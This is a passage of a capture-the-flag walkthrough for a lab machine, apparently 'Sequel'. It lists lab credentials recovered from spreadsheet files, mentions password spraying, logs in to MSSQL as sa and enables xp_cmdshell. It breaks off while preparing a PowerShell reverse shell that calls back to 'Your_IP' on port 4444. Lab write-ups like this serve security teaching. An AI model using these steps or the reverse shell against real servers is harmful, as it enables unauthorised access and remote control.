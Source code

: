     ![](https://cdn-images-1.medium.com/max/1000/1*w4hbPYWrnTRmElADuGtFWg.png)

+ Checking the file type

    I tried to open them but there were an error so i check the file types and found they were actually zip files 

    ![](https://cdn-images-1.medium.com/max/1000/1*ILUr36yid2_JmjB-ZfpswQ.png)

+ Unzipping them
        ![](https://cdn-images-1.medium.com/max/1000/1*u3DVbqWd1uvQHpL7im_AaA.png)

    After some fetching i found credentials in the sharedStrings.xml file, i gathered these data in this md table

    | First Name | Last Name | Email             | Username | Password         |
    |------------|----------|-------------------|----------|------------------|
    | Angela     | Martin   | angela@sequel.htb | angela   | 0fwz7Q4mSpurIt99 |
    | Oscar      | Martinez | oscar@sequel.htb  | oscar    | 86LxLBMgEWaKUnBG |
    | Kevin      | Malone   | kevin@sequel.htb  | kevin    | Md9Wlq1E5bZnVDVo |
    | NULL       | NULL     | sa@sequel.htb     | sa       | MSSQLP@ssw0rd!   |


Only oscar cred was valid for SMB and nothing from password spraying
![](https://cdn-images-1.medium.com/max/1000/1*9wrjxqumYmopKRO8NKC8bA.png)
I tried enumerating with the Oscar user, but nothing significant was revealed. However, I already know from before about the SA user.

---

## 2. Initial Foothold

The SA user belongs to the sysadmin fixed server role, which grants full control over the SQL Server instance, including all databases, configurations, and system-level operations. During SQL Server installation, the SA account is created. 

So, I decided to give it a shot with mssqlclient, and it worked.

![](https://cdn-images-1.medium.com/max/1000/1*O_Am8iHYNf33_khE65cDZA.png)

+ Enable cmd shell
    
    We can now enable the xp_cmdshell and execute commands
    ![](https://cdn-images-1.medium.com/max/1000/1*PNTYh1cWsIX0L-tokpj-RQ.png)
 
+ Prepare reverse shell payload

    using [Invoke-PowerShellTcp](https://medium.com/r/?url=https%3A%2F%2Fraw.githubusercontent.com%2Fsamratashok%2Fnishang%2Frefs%2Fheads%2Fmaster%2FShells%2FInvoke-PowerShellTcp.ps1) reverse shell, add the following line to the bottom of the script

    ```
    Invoke-PowerShellTcp -Reverse -IPAddress 'Your_IP' -Port 4444
    ```
